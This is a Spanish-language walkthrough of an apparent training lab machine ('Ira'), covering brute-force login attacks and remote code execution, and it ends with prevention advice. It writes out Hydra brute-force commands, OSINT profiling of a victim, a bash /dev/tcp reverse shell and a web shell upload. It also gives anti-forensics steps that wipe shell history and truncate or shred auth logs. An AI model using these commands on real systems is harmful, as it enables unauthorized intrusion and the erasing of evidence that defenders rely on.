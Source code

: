 = Ira
:author: Manuel L. Quero
:toc: left
:doctype: book

<<<

== Ataque de Fuerza Bruta

Un ataque de fuerza bruta utiliza el método de prueba y error para adivinar la información de inicio de sesión, las claves de cifrado o encontrar una página web oculta. Los hackers estudian todas las combinaciones posibles con la esperanza de acertar. Aunque todos los ataques de fuerza bruta comparten este principio básico de «prueba y error», existen diferentes tipos de ataques de este tipo, cada uno con su propia metodología y estrategia.

A continuación vamos a ver los tipos de ataques más frecuentes:

=== 1. Ataque de fuerza bruta estándar

Este es el ataque de fuerza bruta en su forma más básica. El atacante intenta todas las combinaciones posibles de contraseñas hasta que se encuentre la correcta. Este método puede ser extremadamente lento y consume muchos recursos, pero también puede ser efectivo si la contraseña es débil, ya que muchas personas siguen usando contraseñas débiles, como "admin123" o "1234,", o practican un mal protocolo de contraseñas, como usar la misma contraseña para varios sitios web. Además, si el atacante realiza un trabajo de reconocimiento mínimo puede descifrar la contraseña potencial de una persona, como el nombre de su equipo deportivo favorito.

=== 2. Ataque de fuerza bruta con diccionario

Un ataque de diccionario es aquel en el que el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona, usando un software normalmente. Este método es más rápido que un ataque de fuerza bruta estándar, aún así suele llevar mucho tiempo y tiene una baja probabilidad de éxito en comparación con los métodos de ataque más nuevos y efectivos.

=== 3. Ataques de fuerza bruta híbrida 

Un ataque híbrido de fuerza bruta es cuando se combina un método de ataque de diccionario con un simple ataque de fuerza bruta. El atacante comienza con una lista de posibles palabras, luego experimenta con combinaciones de caracteres, letras y números para encontrar la contraseña correcta. Este enfoque permite al atacante descubrir contraseñas que combinan palabras comunes o populares con números, años o caracteres aleatorios, como "SanDiego123" o "Rover2020@".

=== 4. Ataques de fuerza bruta inversa 

Un ataque de fuerza bruta inversa ve a un atacante comenzar el proceso con una contraseña conocida, que generalmente se descubre a través de una violación de la red. Utilizan esa contraseña para buscar una credencial de inicio de sesión coincidente utilizando listas de millones de nombres de usuario. Los atacantes también pueden usar una contraseña débil de uso común, como "Contraseña123#", para buscar una coincidencia en una base de datos de nombres de usuario.

== RCE (Remote Code Execution)

La Ejecución Remota de Código (RCE) es una vulnerabilidad crítica que permite a un atacante ejecutar comandos o código arbitrario en un sistema remoto, normalmente con los permisos del proceso vulnerable. Esta falla puede surgir por errores de programación, configuraciones inseguras o el uso inadecuado de funciones que interactúan con el sistema operativo.

El impacto de un RCE puede ser devastador, ya que en muchos casos permite al atacante tomar el control completo del sistema, acceder a datos sensibles o incluso pivotar a otros sistemas de la red.

Existen múltiples técnicas para explotar esta vulnerabilidad. En nuestro caso, nos centraremos en dos formas comunes de RCE:

=== 1. RCE directo mediante inyección de comandos.

Las aplicaciones web mal configuradas o que no sanitizan correctamente las entradas del usuario pueden ser vulnerables a la inyección de comandos. Por ejemplo, si una aplicación pasa parámetros directamente a la línea de comandos sin validación adecuada.

=== 2. RCE mediante subida de archivos maliciosos.

Este ataque se da cuando una aplicación permite subir archivos, pero no controla adecuadamente el tipo, contenido o extensión del archivo. Si el servidor guarda ese archivo en un lugar accesible públicamente y permite su ejecución, el atacante puede subir un script malicioso (por ejemplo, PHP) y ejecutarlo remotamente.

== Solucionar la máquina

En esta guía vamos a ver, cómo realizar diferentes ataques de fuerza bruta, para después adentrarnos en ataques RCE. Aprenderemos distintas herramientas como hydra o burpsuite, entre otras.

Herramientas:

* https://portswigger.net/burp/communitydownload[Burpsuite]
* https://www.kali.org/tools/hydra/[Hydra]
* https://www.kali.org/tools/netcat/[Netcat]

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, ira.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh ira.tar
----

=== Ataque de Fuerza Bruta

==== Conceptos Básicos

El Intruder de Burpsuite tiene cuatro modos de operar, nosotros utilizaremos dos de ellos, pero me gustaría explicarlos para que quede claro que hace cada uno.

. *Sniper* -> Este modo prueba una lista de payloads en cada posición de forma individual, manteniendo las demás constantes. Es útil para detectar vulnerabilidades como inyecciones SQL o XSS en parámetros específicos. Por ejemplo, si tienes tres parámetros y una lista de 100 payloads, se realizarán 300 solicitudes (100 por cada parámetro).

. *Battering Ram* -> En este se aplica el mismo payload en todas las posiciones marcadas simultáneamente. Sirve para cuando el mismo valor debe estar presente en múltiples campos, como un token que aparece en varios lugares. Por ejemplo, si marcas dos posiciones y tienes una lista de 50 payloads, se realizarán 50 solicitudes, cada una con el mismo payload en ambas posiciones.​

. *Pitchfork* -> Este utiliza diferentes listas de payloads para cada posición, insertando los payloads correspondientes en paralelo. Se utiliza cuando se necesita probar combinaciones específicas de valores relacionados, como pares de usuario y contraseña correspondientes. Por ejemplo, si tienes dos listas de 100 elementos cada una, se realizarán 100 solicitudes, combinando el primer elemento de cada lista, luego el segundo, y así sucesivamente.

. *Cluster Bomb* -> Genera todas las combinaciones posibles entre múltiples listas de payloads, prueba cada combinación en las posiciones correspondientes. Es ideal para ataques de fuerza bruta donde se desconoce la relación entre los valores, como probar todas las combinaciones posibles de usuarios y contraseñas. Por ejemplo, si tienes una lista de 100 usuarios y otra de 100 contraseñas, se realizarán 10,000 solicitudes (100 x 100).

==== 1. Ataque de fuerza bruta estándar

Este, al ser un ataque por repetición en el que no se utiliza ningún tipo de software, prefiero dar recomendaciones en caso que queramos probar a realizarlo, ya que es muy tedioso y poco eficiente. Por ello, vamos a ver los usuarios y contraseñas más usados en un panel de login, además de algunas nociones básicas para encontrar información.

.Usuarios más usados
[%collapsible]
====
[source,text]
----
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
----
====

.Contraseñas más usadas
[%collapsible]
====
[source,text]
----
123456
123456789
12345678
password
qwerty123
qwerty1
111111
12345
secret
123123
1234567890
1234567
000000
qwerty
abc123
password1
iloveyou
11111111
dragon
monkey 
----
====

Hay ocasiones en las que no sabremos la identidad del usuario, pero podriamos hacernos a la idea si hacemos un ataque de OSINT a la víctima, conociendo: 

* *RRSS*

** Examinar perfiles públicos en plataformas como Facebook, LinkedIn, Twitter e Instagram para obtener nombres, fechas de nacimiento, intereses y otros datos personales que puedan estar relacionados con contraseñas. Identificar nombres de mascotas, equipos deportivos favoritos, fechas significativas, etc.

* *Búsqueda en Motores de Búsqueda*

** Utilizar operadores avanzados de búsqueda en Google para encontrar información relacionada con la víctima, como correos electrónicos, nombres de usuario y publicaciones en foros. Ejemplo: _site:linkedin.com/in/ "víctima"_

* *Revisión de Brechas de Seguridad*

** Consultar bases de datos de filtraciones de datos para verificar si la información de la víctima ha sido comprometida anteriormente. Existen herramientas como https://haveibeenpwned.com/[Have I Been Pwned] que pueden ser útiles.

* *Análisis de Metadatos*

** Descargar y analizar documentos públicos (PDFs, imágenes, etc.) asociados a la víctima para extraer metadatos que puedan revelar nombres de usuario, software utilizado, fechas y más. Para ello recomiendo herramientas como https://github.com/ElevenPaths/FOCA[FOCA].

* *Observación de Patrones de Contraseñas*

** Basándose en la información recopilada, inferir posibles patrones de contraseñas que la víctima podría utilizar, como combinaciones de nombres y fechas (ejemplo: Juan1990).

También recomiendo usar unas cuantas herramientas además de las anteriores:

https://www.kali.org/tools/theharvester/[TheHarvester] -> Recopila correos electrónicos, subdominios y nombres de usuario asociados a un dominio específico.

https://www.kali.org/tools/maltego/[Maltego] -> Permite visualizar relaciones entre personas, correos electrónicos, dominios y más mediante gráficos.

https://www.kali.org/tools/spiderfoot/[SpiderFoot] -> Automatiza la recopilación de información sobre una entidad específica, incluyendo direcciones IP, nombres de usuario y más.

https://www.kali.org/tools/sherlock/[Sherlock] -> Sirve para localizar el nombre de usario en distintas plataformas.

https://osintframework.com/[OSINT Framework] -> Un conjunto de herramientas categorizadas para facilitar la investigación OSINT.

https://www.kali.org/tools/recon-ng/[Recon-ng] -> Framework de reconocimiento web que ofrece módulos para recopilar información sobre objetivos.

==== 2. Ataque de fuerza bruta con diccionario

En este ataque, aunque ya fue visto en la anterior máquina, lo vimos a través de wpscan. En cambio en esta lo veremos con hydra y burpsuite.

Kali viene con varios diccionarios preinstalados en la ruta /usr/share/wordlist. A mi en especial me gusta mucho el de https://github.com/danielmiessler/SecLists[Seclists], ya que es muy completo. Pero hay que saber usar diccionarios, ya que si usamos primeramente unos muy fuertes nos va a tardar mucho, ya que la desventaja principal de los ataques de fuerza bruta es que usan muchos recursos del ordenador donde se ejecuta y dependiendo de eso, tardará más o menos.

===== Hydra

Cómo no conocemos ni el usuario ni la contraseña, tendremos que usar diccionarios en ambos campos. Pero antes de esto deberemos hacer un estudio de la página, para saber si usa POST o GET, y ver los IDs de los campos:

Si le damos al F12 podremos inspeccionar la estructura de la página, viendo que en los campos del usuario y contraseña, sus IDs son *user* y *pass*.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/IDs.png[ID]

Si le damos a Network y enviamos unas credenciales erroneas, veremos que se envían mediante *POST*, además de poder ver la url que será importante para el siguiente comando. Además de conocer el mensaje de error que nos devuelve para poder filtrar, en este caso *"Credenciales incorrectas."*.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/POST.png[POST]

Nuestro comando en hydra es:

[source, bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2024-197_most_used_passwords.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-L* -> Lista de usuarios
* *-P* -> Lista de contraseñas
* *172.34.0.2* -> Ataca el host objetivo
* *http-post-form* -> Define el método del formulario
* *"/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."*
** _la ruta del login_
** _los parámetros POST_
** _el mensaje que indica un fallo de login_

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Ataque.png[Ataque]

Probamos las credenciales que ha encontrado.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Cred.png[Credenciales]

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Entrar.png[Pasar login]

De esta forma, podremos acceder mediante el uso de diccionarios, pero en este caso las credenciales eran sencillas, en peores casos tendremos que esperar horas, aunque depende del hardware del ordenador donde se ejecute.

===== Burpsuite

Primeramente recomiendo instalar FoxyProxy en nuestro navegador. Cuando estemos dentro de este, deberemos irnos a Proxies y crear uno nuevo dándole a Add. Deberemos poner la siguiente configuración, para interceptar con Burpsuite en local desde el puerto 8081. Además deberemos añadir en la parte de patrones el que aparece en la siguiente imagen:

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/FoxyProxy.png[FoxyProxy Config]

Nos vamos a nuestra página donde le daremos al logo de FoxyProxy si lo hemos puesto en la barra de herramientas y le damos al proxy que hemos creado.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/FoxyProxy2.png[FoxyProxy Navegador]

Ahora abrimos Burpsuite y creamos un proyecto temporal, ya que tendremos la versión de la comunidad, iniciándolo por defecto. Cuando esté abierto, nos vamos a la configuración del proxy donde pondremos la IP y puerto que hemos configurado en FoxyProxy. 

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Burp1.png[Burpsuite]

En Burpsuite, en la parte de Proxy, le damos a *Intercept off* para pasarlo a *on* y comenzar a capturar el tráfico. Y en nuestra página ponemos cualquier credenciales y le damos a entrar, enviándonos a Burpsuite directamente.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Burp2.png[Burpsuite2]

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/LoginBurp.png[Enviar petición]

En Burpsuite, nos aparecerá la petición POST que hemos capturado, donde podremos ver los IDs de los campos, por lo que para atacar desde Burpsuite, deberemos pasar esta petición al intruder, le damos clic derecho sobre la petición y la enviamo a este:

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Burp3.png[Burpsuite2]

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Intruder1.png[Intruder1]

Una vez en el Intruder, deberemos darle al desplegable de arriba y cambiarlo a *Cluster bomb attack*, ya que sirve para ataques que combinan usuarios y contraseñas. Después en los IDs que están en la parte inferior, borraremos el usuario y contraseña que hemos puesto antes en el login, y después de cada símbolo de igual le daremos a *Add §*.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Intruder2.png[Intruder2]

A la derecha nos pedirá igresar un payload, es decir, los diccionarios y deberemos poner el correspondiente payload en la posición correcta. En el 1 va el de los usuario y le pongo el diccionario de nombres de usuario frecuentes y en el 2 va la contraseña y por ello le pongo el diccionario de contraseñas sencillas.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Intruder3.png[Intruder3]

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Intruder4.png[Intruder4]

Además en la configuración del Intruder deberemos cambiar dos cosas:

* *Redirections* -> Deberemos poner Always para aceptar las redirecciones.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/IntruderRedirections.png[Ajuste Redirecciones]

* *Grep - Extract* -> Como hemos hecho antes en el caso de Hydra, deberemos indicarle el mensaje de error. Principalmente se usa para delimitar cuando empieza y cuando acaba el ataque. Por desgracia, no nos aparecerá con nuestra página. Por lo que deberemos estar atentos al cambio de longitud.

Una vez dicho esto le damos al botón naranja para iniciar el ataque, empezará a probar tanto usuarios como contraseñas hasta que dé con el correcto, podemos ver el proceso y cuando cambie la longitud, la primera significa que ha entrado con esas, ya que hemos puesto que acepte redirecciones.

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Entrar.png[Pasar el login]

Cuando quitemos la interceptación del proxy, podremos ver cómo hemos entrado:

[.text-center]
image::assets/Fuerza Bruta/Diccionario/Burp/Entrar2.png[Pasar el login2]

==== 3. Ataques de fuerza bruta híbrida

===== Hydra

Vamos a crear un diccionario solo con las palabras más comunes y usando *crunch*, de esta forma crearemos un diccionario híbrido más dedicado.

Tabla de caracteres especiales de crunch:

[cols="1,1"]
|===
|Símbolo|Significado

|@
|Minúsculas (a-z)

|,
|Mayúsculas (A-Z)

|%
|Números (0-9)

|^
|Símbolos (!@$%, etc.)
|===

Por lo que realizamos los siguientes comandos, obteniendo un diccionario personal al que le podemos añadir entradas en caso de encontrar información más relevante.

[source,bash]
----
$ crunch 8 8 admin%%% >> diccionario.txt
$ crunch 9 9 qwerty%%% >> diccionario.txt
$ crunch 7 7 @@@@123 >> diccionario.txt
$ crunch 7 7 user^^^ >> diccionario.txt
----

En este ataque vamos a atacar directamente a la cuenta *admin* con hydra. De esta forma veremos el uso del parametro -l y como actuar en caso de conocer al usuario.

[source,bash]
----
hydra -l admin -P diccionario.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-l* -> En este parámetro ponemos el nombre del usuario.

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Hydra/Ataque.png[Ataque]

===== Burpsuite

En este caso, realizaremos lo ya visto anteriormente hasta la parte del Intruder. En este caso, vamos a usar el Sniper attack, donde se usa en una posicion, un objetivo. Deberemos añadir los símbolos en la parte de la contraseña.

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Burp/Intruder1.png[Intruder1]

En este caso vamos a poner unas cuantas palabras en la parte de payload, añadiendo una por una, y luego añadiremos a cada una distintos sufijos.

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Burp/Intruder2.png[Intruder2]

En la parte de Payload processing, añadiremos los sufijos, para ello le daremos a añadir, en la pestaña buscamos "Add sufix" y ponemos el que queramos, además podemos ponerles incluso prefijos para hacerlo más completo. Pero deberemos activarlos según queramos, ya que si todos están activos se acumulan y eso no lo queremos, por lo que voy a ir uno por uno.

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Burp/Intruder3.png[Intruder3]

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Burp/Intruder4.png[Intruder4]

Al final nos debe quedar algo así:

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Burp/Intruder5.png[Intruder5]

También es importante recordar que en la configuración hay que cambiar lo de las redirecciones a siempre. Dicho esto, vamos a probar el ataque:

Si probamos con el primer sufijo, ninguno es correcto, por lo que queda descartado. De esta forma deberemos probarlo con cada uno.

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Burp/Ataque1.png[Ataque1]

[.text-center]
image::assets/Fuerza Bruta/Hibrido/Burp/Ataque2.png[Ataque2]

Podemos observar que con el último sufijo que hemos introducido es correcto, ya que a variado la longitud. Y cuando quitemos el proxy ya estermos dentro.

==== 4. Ataques de fuerza bruta inversa

===== Hydra

En este caso, deberemos usar una contraseña que ya sabemos que alguien utiliza, en nuestro caso va a ser *qwerty123*, pero no conocemos al usuario por lo que podemos usar algún diccionario de los anteriores mencionados o crear uno con los usuarios más utilizados.

[source,bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p qwerty123 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-p* -> En este parámetro ponemos la contraseña que creamos correcta.

[.text-center]
image::assets/Fuerza Bruta/Inverso/Hydra/Ataque.png[Ataque]

===== Burpsuite

Como ya hemos visto antes, deberemos hacer lo mismo hasta el punto del Intruder, donde añadiremos los símbolos en el usuario y meteremos un payload para adivinarlo.

[.text-center]
image::assets/Fuerza Bruta/Inverso/Burp/Intruder.png[Intruder]

[.text-center]
image::assets/Fuerza Bruta/Inverso/Burp/Ataque.png[Ataque]

Como podemos observar el usuario correcto es *admin*.


=== RCE

Una vez dentro, gracias a los ataques de fuerza bruta, en el panel de administrador se puede acceder a una linea de comandos para administrar desde la web, y también se puede acceder a una página para subir archivos y poder verlos mediante un enlace. A continuación vamos a ver estos dos tipos de ataque RCE:

==== 1. RCE directo mediante inyección de comandos.

Teniendo a nuestra disposición una terminal, vamos a recolectar información para luego hacer una reverse shell y poder efectuar comando con mayor tranquilidad.

[.text-center]
image::assets/RCE/CMD/Página.png[Página]


===== Conocer estructura de archivos

* *ls -la* -> Con este comando podemos ver todos los archivos del directorio actual, conociendo sus permisos, usuario y grupo.

[.text-center]
image::assets/RCE/CMD/LS.png[comando ls]

* *pwd* -> Podemos saber en qué directorio estamos

[.text-center]
image::assets/RCE/CMD/PWD.png[comando pwd]

===== Usuarios

* *whoami* -> Podemos conocer que usuario somos. Podemos ver que somos root, por lo que podemos hacer de todo.

[.text-center]
image::assets/RCE/CMD/whoami.png[comando whoami]

* *id* -> Podemos ver los permisos que tiene nuestro usuario. 

[.text-center]
image::assets/RCE/CMD/id.png[comando id]

* *cat /etc/passwd* -> En este archivo se encuentran los usuarios que existen en el sistema

[.text-center]
image::assets/RCE/CMD/passwd.png[archivo passwd]

===== Sistema Operativo

* *uname -a* -> Nos dice el sistema operativo en el que se encuentra. Cómo está en un docker dentro de un Kali, podemos ver lo siguiente.

[.text-center]
image::assets/RCE/CMD/uname.png[comando uname]

===== Reverse Shell

Al ser root, podemos hacer todo lo que queramos, cómo si queremos borrar todo el sistema, pero también podemos mantenernos persistentes en él o acceder para tener una terminal más comoda. Hay miles de cosas que podemos hacer en está situación, por lo que vamos a ver cómo realizar una reverse shell desde la web.

Abrimos una terminal con netcat y nos ponemos a la escucha:

[.text-center]
image::assets/RCE/CMD/NetCat1.png[NetCat 1]

En la web ponemos el siguiente comando:

[source,bash]
----
bash -c 'bash -i >& /dev/tcp/192.168.1.20/4444 0>&1'
----

[.text-center]
image::assets/RCE/CMD/NetCat2.png[NetCat 2]

Una vez hecho esto ya estaremos conectados con netcat como root:

[.text-center]
image::assets/RCE/CMD/NetCat3.png[NetCat 3]

Ya que somos root, y estamos con infltrados en el sistema, he pensado que estaría bien tener en cuenta algunas prácticas para limpiar nuestro rastro:

* *1. Crear directorios ocultos*

[source,bash]
----
$ mkdir /dev/shm/.secreto
$ ls -la /dev/shm/
----

Para eliminar el directorio después de usarlo:

[source,bash]
----
$ rmdir /dev/shm/.secreto
----

* *2. Borrar historial de Bash*

Podemos ver el historial actual con history.

** Eliminar la variable de entorno HISTFILE:

[source,bash]
----
$ unset HISTFILE
----

** O redirigir el historial a /dev/null:

[source,bash]
----
$ HISTFILE=/dev/null
$ export HISTFILE=/dev/null
----

** Configurar para no guardar el historial
[source,bash]
----
$ HISTSIZE=0
$ HISTFILESIZE=0
----

** Eliminar el historial con:
[source,bash]
----
$ history -c
$ cat /dev/null > ~/.bash_history && history -c && exit
----

* *3. Limpiar archivos de registro*

Para evitar dejar rastros en los registros del sistema, podemos truncarlos en lugar de eliminarlos de esta forma no levantaremos sospechas:

[source,bash]
----
$ truncate -s 0 /var/log/auth.log
$ echo '' > /var/log/auth.log
$ cat /dev/null > /var/log/auth.log
----

También podemos usar shred para sobrescribir el archivo:

[source,bash]
----
$ shred -zu /var/log/auth.log
----

* *4. Uso de herramientas*

https://github.com/sundowndev/covermyass[Covermyass] es un script automatizado para borrar huellas, limpiar archivos de registro y desactivar el historial:

[source,bash]
----
$ curl -sSL https://github.com/sundowndev/covermyass/releases/latest/download/covermyass_linux_amd64 -o ./covermyass
$ chmod +x ./covermyass
$ ./covermyass
----

Con opciones para borrar registros y desactivar el historial de Bash y autenticación.

==== 2. RCE mediante subida de archivos maliciosos.

Ahora nos iremos a la parte de subir archivos, donde primeramente provaremos a subir uno de ejemplo:

[.text-center]
image::assets/RCE/archivos/Página.png[Página]

Voy a subir un archivo pdf para comprobar si se pueden ejecutar los archivos:

[.text-center]
image::assets/RCE/archivos/PDF1.png[PDF1]

[.text-center]
image::assets/RCE/archivos/PDF2.png[PDF2]

[.text-center]
image::assets/RCE/archivos/PDF3.png[PDF3]

Como podemos observar, podemos abrir estos archivos, por lo que vamos a realizar una web shell con permisos de root:

[.text-center]
image::assets/RCE/archivos/WebShell.png[WebShell]

De esta forma, a través de este archivo podremos ejecutar comandos como administrador, deremos usar lo siguiente en la url del archivo "?cmd=(comando)", así enviamos el comando para que el GET lo obtenga y lo pase.

[.text-center]
image::assets/RCE/archivos/WebShell2.png[WebShell2]

[.text-center]
image::assets/RCE/archivos/WebShell3.png[WebShell3]

Y ya podemos hacer lo que queramos como root.

==== Aclaración

En este último hemos sido root todo el rato, pero eso casi nunca es así, por lo que en el siguiente pecado aprenderemos a escalar privilegios mediante capabilities u otras formas.

== ¿Cómo prevenir?

=== Fuerza Bruta

==== 1. Usar contraseñas seguras

Como hemos visto, las credenciales se han obtenido fácilmente debido a su baja seguridad. Por ello, se recomienda evitar contraseñas predecibles como nombres propios, fechas de nacimiento o palabras comunes. Además, es buena práctica cambiarlas periódicamente para reducir riesgos en caso de filtración.

==== 2. Implementar autenticación multifactor (MFA)

La autenticación multifactor añade una capa adicional de seguridad al requerir, además de la contraseña, una segunda forma de verificación, como un código enviado al teléfono móvil o generado por una aplicación. Esto dificulta el acceso incluso si la contraseña ha sido comprometida.

==== 3. Limitar los intentos de inicio de sesión

Limitar el número de intentos de inicio de sesión es una medida eficaz contra los ataques de fuerza bruta. Estos ataques prueban múltiples combinaciones de credenciales en poco tiempo, por lo que establecer un límite de intentos y bloquear temporalmente la cuenta tras varios fallos puede detenerlos de forma efectiva.

==== 4. Usar sistemas de detección (IDS) y prevención (IPS) de intrusiones

Los IDS e IPS son herramientas clave para detectar y bloquear comportamientos sospechosos, como múltiples intentos de acceso fallidos. Un IDS actúa como sistema pasivo, alertando sobre actividades anómalas, mientras que un IPS puede intervenir activamente para bloquear el tráfico malicioso.

Ejemplos:

* Snort
* Suricata

==== 5. Implementar restricciones por IP

Restringir el acceso a servicios críticos mediante filtros por dirección IP o ubicación geográfica ayuda a reducir la superficie de ataque. De este modo, solo se permite el acceso desde ubicaciones de confianza.

==== 6. Usar CAPTCHAs

Los CAPTCHA son pruebas diseñadas para diferenciar a humanos de bots. Al pedir al usuario que resuelva tareas simples como identificar imágenes o escribir un texto distorsionado, se evita que scripts automatizados abusen de formularios o sistemas de autenticación.

==== 7. Aplicar limitación de velocidad (Rate Limiting)

Este mecanismo restringe el número de solicitudes permitidas desde una IP o usuario en un intervalo de tiempo. Al aplicarlo, se reduce la eficacia de los ataques automatizados, ya que impide probar grandes volúmenes de credenciales rápidamente.

==== 8. Utilizar un cortafuegos de aplicaciones web (WAF)

